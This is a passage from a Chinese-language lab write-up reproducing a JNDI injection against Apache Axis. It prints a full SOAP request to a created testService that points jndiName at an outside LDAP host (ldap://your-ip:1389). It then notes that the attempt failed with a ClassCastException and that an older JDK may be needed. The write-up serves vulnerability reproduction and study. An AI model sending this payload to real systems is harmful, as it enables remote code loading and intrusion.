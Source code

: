 访问创建的testService进行jndi注入：

```
POST /axis/services/testService HTTP/1.1
Host: your-ip:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/axis/servlet/AxisServlet
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-TW;q=0.9,zh-CN;q=0.8
Connection: close
SOAPAction:
Content-Type: text/xml;charset=UTF-8
Content-Length: 791

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:buil="http://build.antlr">
  <soapenv:Header/>
  <soapenv:Body>
    <buil:getService soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <environment xmlns:apachesoap="http://xml.apache.org/xml-soap" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xsi:type="apachesoap:Map">
        <item>
          <key xsi:type="soapenc:string">jndiName</key>
          <value xsi:type="soapenc:string">ldap://your-ip:1389/dlmaty</value>
        </item>
      </environment>
    </buil:getService>
  </soapenv:Body>
</soapenv:Envelope>
```

这里 JNDI 注入**不成功**，报错 `java.lang.ClassCastException: javax.naming.Reference cannot be cast to org.apache.axis.client.Service`。

可能是复现的环境采用需要1.8.0_102之前的环境。（待测）

![image-20230630163750630](images/image-20230630163750630.png)